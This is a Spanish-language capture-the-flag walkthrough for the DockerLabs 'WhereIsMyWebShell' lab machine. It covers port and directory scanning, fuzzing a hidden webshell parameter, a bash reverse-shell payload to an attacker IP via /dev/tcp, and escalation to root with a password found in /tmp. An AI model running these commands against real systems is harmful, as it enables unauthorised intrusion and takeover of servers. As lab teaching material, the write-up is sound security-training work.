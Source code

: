 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WhereIsMyWebShell DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip whereismywebshell.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh whereismywebshell.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:55 EST
Nmap scan report for insanity.dl (172.17.0.2)
Host is up (0.000040s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```

Si entramos dentro de la pagina veremos una pagina normal, por lo que haremos un poco mas de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/server-status        (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que encontramos `2` cosas bastantes interesantes si entramos en la siguiente pagina...

```
URL = http://<IP>/warning.html
```

Veremos lo siguiente:

```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```

Por lo que vamos a realizar un poco de `fuzzing` en busca del parametro oculto en el `shell.php` que puede ejecutar codigo.

## WFUZZ

```shell
wfuzz -w <WORDLIST> -u 'http://<IP>/shell.php?FUZZ=whoami' --hh 0
```

Info:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000115401:   200        2 L      2 W        21 Ch       "parameter" 
```

Vemos que encontramos el parametro `parameter`, por lo que vamos a comprobarlo:

```
URL = http://<IP>/shell.php?parameter=whoami
```

Info:

```
www-data
```

Vemos que funciona, por lo que nos crearemos una `reverse shell` de la siguiente forma:

```
URL = http://<IP>/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.5.186/7777 0>%261"
```

Tendremos que sustituir los `&` en formato `URL` que seria `%26` para que se lo pueda tragar y lo interprete bien.

Pero antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si ejecutamos lo de la `URL` y nos vamos donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 44808
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f19c77e8e3b7:/var/www/html$ whoami
whoami
www-data
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si vemos que archivos a creado el usuario `root`, veremos lo siguiente:

```shell
find / -type f -user root 2>/dev/null
```

Info:

```
................................<RESTO_CODIGO>...................................
/sys/module/drm/sections/___srcu_struct_ptrs
/sys/module/drm/sections/.altinstr_aux
/sys/module/drm/sections/__ex_table
/sys/module/drm/sections/__bpf_raw_tp_map
/sys/module/drm/sections/.rodata.str1.8
/sys/module/drm/sections/.export_symbol
/sys/module/drm/sections/.ref.data
/run/apache2/apache2.pid
/run/adduser
/tmp/.secret.txt
/.dockerenv
```

Vemos que hay una ruta interesante llamada `/tmp/.secret.txt` que si lo leemos veremos lo siguiente:

```
cat /tmp/.secret.txt
```

Info:

```
contraseñaderoot123
```

Por lo que vemos puede ser la contraseña de `root` por lo que haremos lo siguiente:

```shell
su root
```

Metemos como contraseña `contraseñaderoot123` y veremos que somos `root` por lo que habremos terminado la maquina.
